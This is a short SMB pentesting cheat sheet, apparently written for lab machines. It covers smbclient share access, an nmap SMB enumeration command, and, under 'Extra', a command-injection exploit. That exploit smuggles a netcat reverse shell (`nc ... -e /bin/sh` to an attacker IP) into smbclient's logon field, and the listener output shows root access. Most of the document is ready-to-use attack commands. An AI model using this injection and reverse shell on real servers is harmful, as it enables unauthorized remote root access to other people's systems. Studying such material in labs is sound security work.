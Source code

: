 # SMB

## Basic

__SMBClient__
```shell
## Connect and run commands; kinda like FTP connect
smbclient \\\\10.10.161.57\\pics
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.

smb: \> 
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (195.6 KiloBytes/sec) (average 195.6 KiloBytes/sec)
```

## Extra

### Netcat reverse shell

_Only effective if smbclient has __logon__ capability; after `smbclient` connects, then `smb:> help` shows.

T1
```console
$ smbclient \\\\10.10.10.3\\tmp --option='client min protocol=NT1'
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
smb: \> logon "/=`nohup nc -nv 10.10.14.36 4444 -e /bin/sh`"
Password: 
```
T2
```console
$ nc -lvp 4444
listening on [any] 4444 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.3] 44881
whoami
root
```

__Nmap enumeration__

```shell
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.161.57 | tee nmap-smb-enum.txt
```
